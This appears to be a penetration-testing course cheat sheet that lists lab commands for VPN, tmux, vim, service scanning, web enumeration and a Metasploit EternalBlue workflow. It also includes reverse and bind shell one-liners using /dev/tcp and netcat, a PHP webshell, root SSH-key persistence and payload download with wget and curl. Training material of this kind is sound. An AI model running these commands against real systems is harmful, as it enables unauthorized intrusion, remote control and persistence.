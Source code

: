 # CHEAT SHEET

## Basic Tools

### General

- [**sudo openvpn user.ovpn**](#): Connect to VPN
- [**ifconfig/ip a**](#): Show our IP address
- [**netstat -rn**](#): Show networks accessible via the VPN
- [**ssh user@10.10.10.10**](#): SSH to a remote server
- [**ftp 10.129.42.253**](#): FTP to a remote server

### tmux

- [**tmux**](#): Start tmux
- [**ctrl+b**](#): tmux: default prefix
- [**prefix c**](#): tmux: new window
- [**prefix 1**](#): tmux: switch to window (1)
- [**prefix shift+%**](#): tmux: split pane vertically
- [**prefix shift+"**](#): tmux: split pane horizontally

### Vim

- [**vim file**](#): vim: open file with vim
- [**esc+i**](#): vim: enter insert mode
- [**esc**](#): vim: back to normal mode
- [**x**](#): vim: Cut character
- [**dw**](#): vim: Cut word
- [**dd**](#): vim: Cut full line
- [**yw**](#): vim: Copy word
- [**yy**](#): vim: Copy full line
- [**p**](#): vim: Paste
- [**:1**](#): vim: Go to line number 1.
- [**:w**](#): vim: Write the file 'i.e. save'
- [**:q**](#): vim: Quit
- [**:q!**](#): vim: Quit without saving
- [**:wq**](#): vim: Write and quit

## Pentesting

### Service Scanning

- [**nmap 10.129.42.253**](#): Run nmap on an IP
- [**nmap -sV -sC -p- 10.129.42.253**](#): Run an nmap script scan on an IP
- [**locate scripts/citrix**](#): List various available nmap scripts
- [**nmap --script smb-os-discovery.nse -p445 10.10.10.40**](#): Run an nmap script on an IP
- [**netcat 10.10.10.10 22**](#): Grab banner of an open port

### SMB Operations

- [**smbclient -N -L \\\\10.129.42.253**](#): List SMB Shares
- [**smbclient \\\\10.129.42.253\\users**](#): Connect to an SMB share

### SNMP Operations

- [**snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0**](#): Scan SNMP on an IP
- [**onesixtyone -c dict.txt 10.129.42.254**](#): Brute force SNMP secret string

## Web Enumeration

- [**gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt**](#): Run a directory scan on a website
- [**gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt**](#): Run a sub-domain scan on a website
- [**curl -IL https://www.inlanefreight.com**](#): Grab website banner
- [**whatweb 10.10.10.121**](#): List details about the webserver/certificates
- [**curl 10.10.10.121/robots.txt**](#): List potential directories in robots.txt

### Public Exploits

- [**searchsploit openssh 7.2**](#): Search for public exploits for a web application
- [**msfconsole**](#): Start the Metasploit Framework
- [**search exploit eternalblue**](#): Search for public exploits in MSF
- [**use exploit/windows/smb/ms17_010_psexec**](#): Start using an MSF module
- [**show options**](#): Show required options for an MSF module
- [**set RHOSTS 10.10.10.40**](#): Set a value for an MSF module option
- [**check**](#): Test if the target server is vulnerable
- [**exploit**](#): Run the exploit on the target server if vulnerable

### Using Shells

- [**nc -lvnp 1234**](#): Start a nc listener on a local port
- [**bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'**](#): Send a reverse shell from the remote server
- [**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f**](#): Another command to send a reverse shell from the remote server
- [**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f**](#): Start a bind shell on the remote server
- [**nc 10.10.10.1 1234**](#): Connect to a bind shell started on the remote server

### Upgrade Shell TTY

- [**python -c 'import pty; pty.spawn("/bin/bash")'**](#): Upgrade shell TTY (1)
- **ctrl+z then stty raw -echo then fg then enter twice**: Upgrade shell TTY (2)

### Create Webshell

- [**echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php**](#): Create a webshell PHP file
- [**curl http://SERVER_IP:PORT/shell.php?cmd=id**](#): Execute a command on an uploaded webshell

### Privilege Escalation

- [**./linpeas.sh**](#): Run linpeas script to enumerate remote server
- [**sudo -l**](#): List available sudo privileges
- [**sudo -u user /bin/echo Hello World!**](#): Run a command with sudo
- [**sudo su -**](#): Switch to root user (if we have access to sudo su)
- [**sudo su user -**](#): Switch to a user (if we have access to sudo su)
- [**ssh-keygen -f key**](#): Create a new SSH key
- [**echo "ssh-rsa AAAAB...SNIP...M= user@parrot >> /root/.ssh/authorized_keys**](#): Add the generated public key to the user
- [**ssh root@10.10.10.10 -i key**](#): SSH to the server with the generated private key

### Transferring Files

- [**python3 -m http.server 8000**](#): Start a local webserver
- [**wget http://10.10.14.1:8000/linpeas.sh**](#): Download a file on the remote server from our local machine
- [**curl http://10.10.14.1:8000/linenum.sh -o linenum.sh**](#): Download a file on the remote server from our local machine
- [**scp linenum.sh user@remotehost:/tmp/linenum.sh**](#): Transfer a file to the remote server with SCP (requires SSH access)

### Convert Files

- [**base64 shell -w 0**](#): Convert a file to base64
- [**echo f0VMR...SNIO...InmDwU | base64 -d > shell**](#): Convert a file from base64 back to its original
- [**md5sum shell**](#): Check the file's md5sum to ensure it converted correctly

